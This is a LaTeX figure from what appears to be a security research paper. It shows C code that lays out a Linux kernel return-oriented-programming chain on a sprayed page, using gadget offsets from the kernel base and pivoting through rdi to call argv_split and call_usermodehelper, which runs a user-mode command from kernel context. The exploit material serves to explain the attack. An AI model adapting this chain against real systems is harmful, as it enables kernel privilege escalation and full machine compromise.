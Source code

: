 \begin{figure*}
\begin{lstlisting}[
        basicstyle = \scriptsize,
        columns = fullflexible,
        %frame = l,
        language = C
        ]
// stack
page[0xF68] = KERNEL_BASE + 0x0d7b05; // pop rsi; ret
page[0xF70] = &ATTACK_PAGE[0x400];
page[0xF78] = KERNEL_BASE + 0x12dacd; // pop rdi; ret
page[0xF80] = 0;
page[0xF88] = KERNEL_BASE + 0x11bac2; // pop rdx ; ret
page[0xF90] = 0;
page[0xF98] = KERNEL_BASE + 0x3a00d0; // &argv_split
page[0xFA0] = KERNEL_BASE + 0x005dfc; // pop rcx ; ret
page[0xFA8] = &ATTACK_PAGE[0x500];
page[0xFB0] = KERNEL_BASE + 0x1319ee; // push rax; jmp qword ptr[rcx]
page[0xFB8] = KERNEL_BASE + 0x5822a2; // mov rax, qword ptr [rax] ; ret
page[0xFC0] = KERNEL_BASE + 0x005dfc; // pop rcx ; ret
page[0xFC8] = &ATTACK_PAGE[0x508];
page[0xFD0] = KERNEL_BASE + 0x1319ee;// push rax; jmp qword ptr[rcx]
page[0xFD8] = KERNEL_BASE + 0x005dfc;// pop rcx ; ret
page[0xFE0] = 0;
page[0xFE8] = KERNEL_BASE + 0x0896a0; // &call_usermodehelper
page[0xFF0] = KERNEL_BASE + 0x4c0f0e; // xor rax, rax ; ret
page[0xFF8] = KERNEL_BASE + 0x003795; // leave ; ret
        \end{lstlisting}
        \caption{
                The pivoting code uses the \texttt{rdi} register, which is known
                to point to the sprayed page.}
        \label{fig:shellcode_2}
\end{figure*}